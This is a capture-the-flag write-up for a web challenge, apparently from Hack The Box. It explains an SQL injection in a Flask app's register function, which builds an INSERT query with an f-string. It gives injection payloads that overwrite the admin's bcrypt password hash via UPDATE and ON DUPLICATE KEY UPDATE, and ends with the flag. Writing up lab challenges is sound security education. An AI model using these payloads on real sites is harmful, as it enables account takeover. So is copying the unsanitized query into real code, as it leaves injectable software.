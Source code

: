 # CTFname - Horror Feeds

* **Category:** Category
* **Points:** 200

## Challenge

> An unknown entity has taken over every screen worldwide and is broadcasting this haunted feed that introduces paranormal activity to random internet-accessible CCTV devices. Could you take down this streaming service?

## Solution
```python
./web_horror_feeds/challenge/application/database.py

def register(username, password):
    exists = query_db('SELECT * FROM users WHERE username = %s', (username,))
   
    if exists:
        return False
    
    hashed = generate_password_hash(password)

    query_db(f'INSERT INTO users (username, password) VALUES ("{username}", "{hashed}")')
    mysql.connection.commit()

    return True
```

* As shown above there is a `register()` function which requires the paramaters `(username, password)` so it can be used in the query to store credentials to a database.
* The vulnerability occurs as there is no sanitization of the `username` therefore makes it possible to execute malicious SQL statements

![image](https://user-images.githubusercontent.com/78451563/198285821-bb4f404b-9c25-4976-bc96-ae7db112453d.png)

* To try login as admin we could try to update the admin's bcrypt password as creating another admin entry wouldn't work
</br>

### SQLi exploitation steps

![image](https://user-images.githubusercontent.com/78451563/198289332-b30893d0-8bb9-49af-b75b-c3bb43234e5e.png)

1. Firstly i ended the firstly query to make it easier:
```sql
admin","password");-- -
```
2. Now to create our custom password by using the `generate_password_hash()`:


```python
def generate_password_hash(password):
    salt = bcrypt.gensalt()
    return bcrypt.hashpw(password.encode(), salt).decode()

def verify_hash(password, passhash):
    return bcrypt.checkpw(password.encode(), passhash.encode())
```
* The server verifies our password using `bcrypt.checkpw` which involves the comparison of the already hashed stored password and the hashed entered password.

![image](https://user-images.githubusercontent.com/78451563/198292904-6832a28a-f3c7-4679-9a69-ff4a80d3d3ff.png)

* We can forge a password by utilising the `generate_password_hash(password)` function

4. Now to update the admins bcrypt password. I used `UPDATE` to change the admin's password and `COMMIT` to save the changes:

![image](https://user-images.githubusercontent.com/78451563/198295460-ebb27271-0f2e-48a3-82b2-be162b4cf988.png)

```sql
UPDATE users SET password='$2b$12$/SM/o3oxLx.rpLNtBrhrkOCXxK/myFjO7DsE83Xws95RSy8j8mjN6' WHERE username='admin'; COMMIT;-- -
```
5. Now to send to the server:

![image](https://user-images.githubusercontent.com/78451563/198296946-d034e2e8-6475-4daa-82c7-9a1310bc02aa.png)

![image](https://user-images.githubusercontent.com/78451563/198297003-93da0bb4-28e2-44d0-ac93-3ca2bbede074.png)

* While this does update the admin's password we get this error `Commands out of sync; you can't run this command now` meaning:
```
If you get Commands out of sync; you can’t run this command now in your client code, you are calling client functions in the wrong order.
```
* To resolve this error i used the `ON DUPLICATE KEY UPDATE` query.

[Payload Query Reference](https://chartio.com/resources/tutorials/how-to-insert-if-row-does-not-exist-upsert-in-mysql/)

```sql
ON DUPLICATE KEY UPDATE username='admin',password='$2b$12$XFj7IPgUFo4kI06hG9H5jOpoRPH3N5xqwF.tWdyefOJwiUOR6KCfa'
```

![image](https://user-images.githubusercontent.com/78451563/198306235-edbda84e-9564-461e-8102-e1da3745d3b8.png)

![image](https://user-images.githubusercontent.com/78451563/198306332-3b666681-382d-40b3-b736-8dd644feb4a1.png)


```
Flag: HTB{N3ST3D_QU3R1E5_AR3_5CARY!!!}
```
